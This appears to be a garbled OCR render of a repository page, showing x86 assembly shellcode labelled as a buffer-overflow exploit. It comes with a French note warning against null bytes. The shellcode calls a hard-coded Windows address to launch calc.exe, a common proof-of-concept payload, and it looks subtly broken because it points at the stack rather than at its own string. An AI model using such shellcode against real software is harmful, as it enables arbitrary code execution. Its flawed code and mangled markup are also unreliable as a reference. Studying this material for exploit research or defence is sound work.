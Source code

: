 [img:./test/img/offsetdll.png]( 837 * , auto )

box> :warning: [c:Attention un shellcocde ne doit en auccun cas comporter de valeur \x00](red) 
 



\shell
; # shell_exploit #
;
;   buffer_overflow
	section .text 

	xor eax,eax	
	mov ebp,eax
	mov dword[esp-0x14],eax
	mov dword[esp-0x08],eax	
	inc eax
	lea ebx,[esp-0x10]
	
	mov edi,0x775AE695
	mov dword[esp],ebx
	mov dword[esp+0x04],eax
	call edi 
	
	section .data
	calc db "calc.exe",0
\\

